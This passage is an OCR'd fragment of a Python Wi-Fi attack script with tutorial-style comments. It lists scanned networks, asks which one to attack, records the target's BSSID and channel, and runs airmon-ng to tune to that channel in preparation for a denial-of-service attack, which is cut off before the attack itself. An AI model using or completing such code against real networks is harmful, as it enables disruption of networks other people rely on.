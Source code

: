        print("Scanning. Press Ctrl+C when you want to select which wireless network you want to attack.\n")
        print("No |\tBSSID              |\tChannel|\tESSID                         |")
        print("___|\t___________________|\t_______|\t______________________________|")
        for index, item in enumerate(active_wireless_networks):
            # We're using the print statement with an f-string. 
            # F-strings are a more intuitive way to include variables when printing strings, 
            # rather than ugly concatenations.
            print(f"{index}\t{item['BSSID']}\t{item['channel'].strip()}\t\t{item['ESSID']}")
        # We make the script sleep for 1 second before loading the updated list.
        time.sleep(1)

except KeyboardInterrupt:
    print("\nReady to make choice.")

# Ensure that the input choice is valid.
while True:
    # If you don't make a choice from the options available in the list, 
    # you will be asked to please try again.
    choice = input("Please select a choice from above: ")
    try:
        if active_wireless_networks[int(choice)]:
            break
    except:
        print("Please try again.")

# To make it easier to work with and read the code, we assign the results to variables.
hackbssid = active_wireless_networks[int(choice)]["BSSID"]
hackchannel = active_wireless_networks[int(choice)]["channel"].strip()

# Change to the channel we want to perform the DOS attack on. 
# Monitoring takes place on a different channel and we need to set it to that channel. 
subprocess.run(["airmon-ng", "start", hacknic + "mon", hackchannel])
